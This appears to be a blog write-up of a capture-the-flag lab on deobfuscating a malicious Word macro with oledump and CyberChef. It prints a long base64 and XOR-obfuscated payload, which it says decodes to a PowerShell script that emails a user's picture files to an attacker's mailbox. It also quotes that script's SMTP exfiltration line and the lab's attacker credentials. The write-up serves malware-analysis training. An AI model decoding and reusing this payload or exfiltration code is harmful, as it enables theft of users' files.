




## Day 22

We're getting into deobfuscation today. When malware writers send you an evil file, your anti-virus might pick it up based on common strings etc. inside the file. Through a process called obfuscation, they can change those strings in a way that they'll look different at first, but still evaluate to the same thing, therefore avoiding detection.  

> McSkidy has finally gotten around to identifying the first trace of Grinch Enterprises within their network. They're looking at local machines to determine what exactly they did when they first entered the network. Can you help them make sense of what happened?

When we're dealing with potentially malicious Word/Excel files, we want to use `oledump`. It'll examine the contents of OLE (Object Linking and Embedding) files for things like macros -- a common attack vector. Let's use `oledump` on the malicious doc we're given, Santa_Claus_Naughty_List_2021.doc:

That's just a basic dump of the streams. We see a pretty sketch macro: GrinchEnterprisesWasHere. We can dump the streams by adding:

    -s [stream number] -d

Once we do `oledump [file] -s 8 -d` we see a large string that looks like base64:

    ahNtWnl0cVNHa25EeREaT0BaYRNBWmFid3RlVkJ0ZVp1Tk9aenRURGhkSxNHa2FZbEobVUdrR1NHa3FPQEoWSUERE1VBdGVWQnRlWkdOT1p6dFRTamR5VUBKYRBATk8TQnQWTWprcUxCe25EentHT0ARGld5cGFwcnVyS2BETEhHe21PQE4WS0F0dhpqSEdaQnQWSUJgFmVBTXFPQE1hWkJ7bU9AWhdabmdqW3JkR1d6dE9Qb05tVUFwamhpa2FLQBBtEEEQaUhzcGl3cmQWE3p0SEh6ERpXQnQWTUdnYRNua0dWakRMSEAREhNAZW1PQE15T0BKYhpqYGlZQXtxVG9OR1d6dE9Qb05tVUFwamhpZBJZeVpiGmpkFk9HWhJVek5TT3oQckR3TnUTb0gSS0J0VFZ3dGVTQWYST0AQbUt5EXZoYEpxWUF7cVRqZxNEd051EG92GkpCTnVJR2BhbHl7clZ3dGVTQWAWd0F7cVRyEVtTeXQWE2hgcXdBe3FUdhF1WkdOdVpvYGISbGdAU2piTGhpa21XR2tiVnF0Fkt6TltPdhBtUGpnE0Rpa3FaR3R2aGBKcVlBe3FUb0htWnl0cU9BTXFTenRbWWpnE0R3TnUQb3YaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gWT0drR1VATldnQE51SHl0FhNCdGVQaGBxEkARdVpBTmVXeXBUSEBkZVlAEEdVQE5yU2BETGhpZBJZeVoWZEBOGldqZxNEak1tS0FNcUtAEGFaeXttT0FNcVl5ZHVQQnt5T0BNT2J5ERJLQnRUVnoRGldqRExoaWQSWXlaFnZBWhZheWRyTGpIR1pCdBZJQmAWZUFNcU9ATWFaQnttT0BaF1puZ2pbcmRHV3p0T1BvTm1VQXBqU2BETEhBe21Nb0hpVXlrSBpqT09VR3tqREBraU9AEXVWR2tuREJkZRF5cGFLQE1pU0dOdUhqcGpoYEpxV0ARQFZ2EHVKQk51SUdgYhpqYGlnQmtpU0AQcVd6e25EdRFPWUJkW1NAEHJKYERMSHlOT1B5e24acRF1E292bUxCdFtIcHtxT0FwYkppZHVWR0lTdXYTdXB2ZWlzcUhPbnF1W3JCdG0TR3tpT0ASW2tATk9WehFEWm5nalt7YGpoYEh5VUBOdUt6EURMaWR5U0FkdkRCdBdEaWR5U0FkdVloclMUYEpxS0drcUt6EUtXeXQWE2pnE0RBTnUQb3QaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gSS0J0VFZye3ETenRtTEF0dVZHYGJXcntpTUd0Ek9BTXFuQnttE2pgcU5CdFtPb0h5EkFkW2x6dBJPYEpxV0ARQFZye3ETenRtTEF0dVZHa25WcnRxSGhgcUtHa3FLehFLV3l0FhNockxoRXJMSEAREhNAYBZ3eXQWSGhgcVdAEUBTYEpxS0drcUt6EUtXeXQWE29IcVNAEGFVQBF2TGh3UGhpZBJZeVoWZkJ7bVRBEG1PaGBIFA==

But decoding this in CyberChef just gives us garbage. Why is that? Because the text is encoded further. Using [XOR encoding](https://en.wikipedia.org/wiki/XOR_cipher) the bits of the data are changed using a key. If the key is small, we could try bruteforcing it, but TryHackMe helpefully tells us the key is decimal 35.  

With our CyberChef recipe set up, we get our malicious script:  

While the Grinch may be happy they've already infected a system, they've also left personal artefacts all over this script meaning it's easy to attribute to them. Let's answer some questions now.  

>  What is the username (email address of Grinch Enterprises) from the decoded script? 

Looking at the code, the script emails the files in a user's /Picturees/Grinch2021/ folder. Hopefully whoever's machine this is wasn't storing any sensitive photos of Mr and Mrs Claus. We can see the username at the top of the script: Grinch.Enterprises.2021@gmail.com  

> What is the mailbox password you found?

In order to log in to the email service to send these files, the Grinch had to use some credentials. So they've also provided a password: S@ntai$comingt0t0wn. Hopefully for them, this is a temporary inbox set up just for this malware, otherwise that's pretty bad opsec.  

> What is the subject of the email?

An easy one, "Christmas Wishlist".  

> What port is the script using to exfiltrate data from the North Pole?

The key line is:

    $smtp = New-Object Net.Mail.SmtpClient($SmtpServer, 587)

That's basically creating a new connection to the email server on port 587.  

> What is the flag hidden found in the document that Grinch Enterprises left behind? (Hint: use the following command oledump.py -s {stream number} -d, the answer will be in the caption).

Returning to our `oledump` command, if we run:

    python oledump.py C:\Users\Administrator\Desktop\Santa_Claus_Naughty_List\Santa_Claus_Naughty_List_2021.doc -s 6 -d

To dump the contents of stream #6, we get:

YouFoundGrinchCookie  

> There is still a second flag somewhere... can you find it on the machine?

Let's look at what we have. We've got all the streams we could go through in `oledump`. We have an email inbox we could try and log into. And we have that folder the script mentioned. Going through the streams in `oledump` doesn't yield much, and we'll keep it lazy by going to the folder next before trying any email magic.  

It looks like there's one file inside /Pictures/Grinch2021/.  

What a bounty.  

